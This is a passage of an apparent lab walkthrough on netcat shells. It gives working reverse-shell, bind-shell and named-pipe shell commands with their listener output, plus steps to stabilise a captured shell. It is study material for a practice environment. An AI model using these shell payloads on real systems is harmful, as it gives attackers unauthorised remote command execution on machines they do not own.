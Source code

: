 ```
Linux linux-shell-practice 4.15.0-117-generic #118-Ubuntu SMP Fri Sep 4 20:02:41 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:28:01 up 10 min, 0 users, load average: 0.00, 0.20, 0.25
USER     TTY      FROM           LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0 can't access tty: job control turned off
```
### Extra: stabilise the netcat shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
* Background the shell using `Ctrl+Z`
``` 
stty raw -echo; fg
```
> Log into the Linux machine over SSH using the supplied credentials. Use the techniques in the Common Shell Payloads section to experiment with bind and reverse netcat shells.

#### Create reverse shell on target host and execute the bash process upon connection.
```
nc 10.10.52.172 1234 -e /bin/bash
```
1. Create listener on attack host.
```
nc -lvnp 1234

Listening on [0.0.0.0] (family 0, port 1234)
```
2. Connection received by attack host.
```
Connection from 10.10.62.10 34924 received!
pwd
/home/shell
```
#### Create bind shell and execute the bash process upon connection.

1. Create listener on target.
```
nc -lvnp 1234 -e /bin/bash

listening on [any] 1234 ...
```
2. Connect to listener from attacking machine.
```
nc 10.10.62.10 1234
```
3. Connection established.
  * On target.
```
connect to [10.10.62.10] from (UNKNOWN) [10.10.52.172] 50168
```
  * On attacker.
```
pwd
/home/shell
```
#### Create named pipe for bind shell.
1. Create listener on target.
```
mkfifo /tmp/f; nc -lvnp 1234 < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f

listening on [any] 1234 ...
```